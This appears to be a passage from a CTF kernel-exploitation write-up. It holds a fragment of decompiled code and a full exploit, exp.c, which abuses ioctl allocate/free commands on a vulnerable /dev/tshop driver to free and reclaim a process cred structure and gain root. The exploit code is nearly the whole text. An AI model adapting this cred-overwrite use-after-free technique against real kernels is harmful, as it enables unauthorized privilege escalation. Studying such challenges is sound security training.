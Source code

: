 ```c
    goto LABEL_16;
  }
  return -1LL;
}
```

#### exp.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>

#define MallocCmd 0x271a
#define FreeCmd 0x2766

void Malloc(int fd,int idx)
{
    ioctl(fd,MallocCmd,idx);
}

void Free(int fd,int idx)
{
    ioctl(fd,FreeCmd,idx);
}

int main()
{
    int fd = open("/dev/tshop",2);
    Malloc(fd,0);
    Malloc(fd,1);
    Free(fd,0);
    Free(fd,1);
    int pid = fork();//now we alloc cred using obj1
    if(pid == 0){
        while(getuid() != 0){
            sleep(2);
        }
        system("id");
    }
    else if(pid > 0){
        Free(fd,1);//now we free cred
        Malloc(fd,2);//set uid=0
        //wait(NULL);
    }
    return 0;
}
```
